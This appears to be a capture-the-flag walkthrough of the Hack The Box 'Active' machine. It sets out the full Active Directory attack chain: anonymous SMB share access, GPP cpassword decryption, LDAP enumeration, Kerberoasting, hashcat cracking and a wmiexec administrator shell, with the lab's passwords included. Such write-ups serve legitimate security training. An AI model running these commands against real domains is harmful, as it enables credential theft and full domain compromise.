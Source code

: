 # ACTIVE
--------------------------------------------------------------------
## Topics will be covered
- SMB enumeration techniques
- Group Policy Preferences enumeration and exploitation
- Identification and exploitation of Kerberoastable accounts

##  Enumeration and Exploiting tools:
```bash
    - Nmap
        ○ nmap -Pn -sV -sC  10.10.10.100
    - SMB
        ○ smbclient -L //10.10.10.100
        ○ smbmap -H 10.10.10.100
        ○ smbclient //10.10.10.100/Replication
    - Foothold (First successful breach/Limited access/Starting point)
        ○ Group Policy Preferences
    - Authenticated Enumeration
        ○ smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
        ○ smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
    - Privilege Escalation
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
        ○ GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
    - Kerberoasting
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
    - Cracking of Kerberos TGS Hash 
        ○ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable 
    - Shell as Primary Domain Admin 
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```
----------------------------------------------------------------------------------------------------------------------------------
### Namp
![alt text](image.png)
![alt text](image-1.png)
- 1. Understanding the SMB share ports 
| Port          | Protocol                                   |Service          | Description                                   |
|---------------|-------------------------------------------|---------------|-------------------------------------------|
|445         | SMB (Server Message Block)                | smb           | File sharing and printer sharing over a network |
|139         | NetBIOS Session Service                    | netbios-ssn  | Provides session services for NetBIOS over TCP/IP |
|135         | Remote Procedure Call (RPC)                | msrpc         | Used for remote procedure calls and DCOM services |
|137         | NetBIOS Name Service                      | netbios-ns    | Provides name services for NetBIOS over TCP/IP |
|138         | NetBIOS Datagram Service                  | netbios-dgm   | Provides datagram services for NetBIOS over UDP |
- Understanding the LDAP ports
Understanding the LDAP ports
| Port          | Protocol                                   |Service          | Description                                   |
|389         | Lightweight Directory Access Protocol (LDAP) | ldap          | Used for accessing and maintaining distributed directory information services |
|636         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3268        | Global Catalog (LDAP)                      | gc            | Provides a read-only replica of the Active Directory database for faster searches |
|3269        | Global Catalog over SSL (LDAPS)            | gc-ssl        | Secure version of the Global Catalog using SSL/TLS encryption |
- 2. Microsoft Active Directory-Specific Ports
| Port          | Protocol                                   |Service          | Description                                   |
|--------------|-------------------------------------------|---------------|-------------------------------------------|
|88           | Kerberos                                   | kerberos      | Authentication protocol used in Active Directory | 
|445         | SMB (Server Message Block)                | smb           | File sharing and printer sharing over a network |
|464         | Kerberos Password Change                   | kpasswd       | Used for changing Kerberos passwords |
|593         | Remote Procedure Call (RPC) over HTTP      | rpc-http      | Used for remote procedure calls over HTTP |
|636         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3268        | Global Catalog (LDAP)                      | gc            | Provides a read-only replica of the Active Directory database for faster searches |
|3269        | Global Catalog over SSL (LDAPS)            | gc-ssl        | Secure version of the Global Catalog using SSL/TLS encryption |
- 3. Additional LDAP-Related Ports
| Port          | Protocol                                   |Service          | Description                                   |
|--------------|-------------------------------------------|---------------|-------------------------------------------|
|689         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|1758      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|2003      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|2004      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3535      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3536      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
- 4.  Ports Used in LDAP Attacks
- When performing penetration testing or security assessments, these ports are critical:

|Attack Type | Ports Used    |
|--------------|-------------------------------------------|
|LDAP Passwords Spraying| 389, 636 |
|LDAP Anonymous Binds | 389|
|LDAP Injection | 389, 636|
|Kerberoasting (via LDAP) | 88, 389|
|AD CS (Certificate Services) Attacks| 389, 636, 88|

- Now lets come back to the nmap results and found smb ports are availible(Port 445 is open)
- But guest user is not available but smb signing is happening
![alt text](image-2.png)
![alt text](image-3.png)
- So lets try smbclient with available shares and login with anonymous this time
```bash
smbclient -L //10.129.89.194 or \\active.htb
```
![alt text](image-4.png)
- Since anonymous login is allowed, we can view a list of available shares. 
- Let's now use smbmap to identify which of these shares are accessible with anonymous credentials.
![alt text](image-5.png)
- Lets login with anonymous to replication share, and there I can find the active.htb folder and then there are subfolder in it as follows
![alt text](image-6.png)
- To do Multifolder search at the same time in smd we can use the command 
```bash
Inside the SMB />RECURSE ON (enables recursive mode for directory operations, meaning subsequent commands will process files and subdirectories within the current directory.)
               />PROMPT OFF (disables interactive prompts when performing batch operations (like downloading/uploading multiple files))
              />mget *	(Auto-downloads all files)
             />mput *	(Auto-uploads all)
     />del *.tmp	(Deletes without asking)
```
![alt text](image-7.png)
- Since the files are donloaded to kali, now lets try to open the each folder and search.
- After opening the Group.xml file we can see below

![alt text](image-8.png)
```bash
username :SVC_TGS
cPassword: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
- Note:Group Policy Preferences 
- Group Policy Preferences (GPP) was introduced in Windows Server 2008, it allowed administrators to modify users and groups across their network. 
- The defined password was AES-256 encrypted and stored in Groups.xml . 
- However, at some point in 2012, Microsoft published the AES key on MSDN,
- meaning that passwords set using GPP are now able to crack and considered low-hanging fruit.

- For cracking the  AES-256 encrypted  - we will use gpp-decrypt tool
```bash
gpp-decrypt "key"
```
- I don’t have this tool installed in kali so downloaded it  using : sudo apt install gpp-decrypt
![alt text](image-9.png)
- Now lets try to map the files that are accessible for SVC_TGS and then we will login

![alt text](image-10.png)
![alt text](image-11.png)
- After searching the directory of SVC_TGS user we found the user.txt in his desktop folder and downloaded
![alt text](image-12.png)
![alt text](image-13.png)
- Note: UserAccountControl 
- stores settings for each user account (like "Is the account disabled?" or "Does the user need a password?").
- Each setting is represented by a number code (e.g., 2 = disabled account).

```bash
UserAccountControl=2 ===> Fetches all active users ignoring disabled accounts.

-s sub: Searches all subdirectories (entire AD structure)
Filter                                                                  : ("(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))"):
Finds user accounts                                                     : (objectCategory=person, objectClass=user)
Excludes disabled accounts                                              :  (!(useraccountcontrol:=2)).
Requests only the sAMAccountName (username) field                       : samaccountname
Filters output to show only usernames                                   :| grep sAMAccountName 
```
![alt text](image-14.png)
```bash
GetADUsers.py	:  A Python script from Impacket that extracts AD user information.
-all	                              : Retrieves all user accounts (including disabled ones).
```
![alt text](image-15.png)

- Kerbrosting---> is basically Request a TGS Ticket 
                  The attacker requests a Ticket Granting Service (TGS) ticket for the service (no admin rights needed).
                  The TGS is encrypted with the service account’s NTLM hash.
             Extract the TGS Hash
          The attacker exports the ticket in John-the-Ripper or Hashcat format.
![alt text](image-16.png)
- With the new ldap search filter of serviceprincipalname will search for the possibility of users that can send a TGS 
```bash 
ldapsearch -x -H 'ldap://10.129.89.194' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
```
- 
In the previous command we got the administrator is available as active user. since we can see the serviceprincipleName is active on port 445.
we can make a service request now.
![alt text](image-17.png)
- Lets reconform with the tool called GetUserSPNs.py  and check weather the same result is happening or not.
```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.89.194
```
![alt text](image-18.png)
- Since it is conforming the same results.
- so now we can make a request to DC for a service request possibility.
![alt text](image-19.png)
- Now save the ntlm hash into a file and try john or hashcat to decrypt the hash as below
```bash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
![alt text](image-20.png)
- Finally got some credentials (password ) for adminstrator.
- Lets try login with one of the impack tool called wmiexec.py
```bash
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.89.194
```
- We have tried login using evil-winrm but it is not working, so we are going with impackts wmiexex.py
![alt text](image-21.png)
![alt text](image-22.png)